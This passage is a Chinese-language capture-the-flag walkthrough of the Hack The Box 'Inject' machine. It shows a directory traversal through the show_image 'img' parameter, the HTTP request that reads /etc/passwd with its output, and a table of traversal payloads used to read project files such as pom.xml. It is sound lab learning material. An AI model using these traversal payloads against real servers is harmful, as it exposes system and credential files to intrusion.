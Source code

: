 尝试目录遍历，发现 `img=../` 能显示文件：  
![directory_traversal](../static/img/HTB-Inject-directory_traversal.png)

噢……看来不是上传webshell

尝试获取 `/etc/passwd`：
```
GET /show_image?img=../../../../../../etc/passwd HTTP/1.1

---

root:x:0:0:root:/root:/bin/bash
……
frank:x:1000:1000:frank:/home/frank:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
phil:x:1001:1001::/home/phil:/bin/bash
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:997:996::/var/log/laurel:/bin/false
```

注意这两个id 1000以后的：  
> frank:x:1000:1000:frank:/home/frank:/bin/bash  
> phil:x:1001:1001::/home/phil:/bin/bash


可以发现user.txt就在phil的家目录里，不过访问了一下没有获取到结果，应该是没有权限。

再回到最初的 `../` 目录下，好像看到java。应该是关于8080端口部署的服务。  
探索：

| payload | 信息 |
| - | - |
| ../../../.project | \<name\>org.springframework.ide.eclipse.boot.validation.springbootbuilder\</name\> |
| ../../../HELP.md | Official Apache Maven |
| ../../../pom.xml | http://maven.apache.org/POM/4.0.0 |

因为有版本号的样子，搜了一下“maven pom 4.0.0 exploit”。找到文章学习一下这个POM。似乎这个文件还挺重要的，这个服务就是用这个文件部署的意思？
> <https://security.humanativaspa.it/abusing-mavens-pom-xml/>

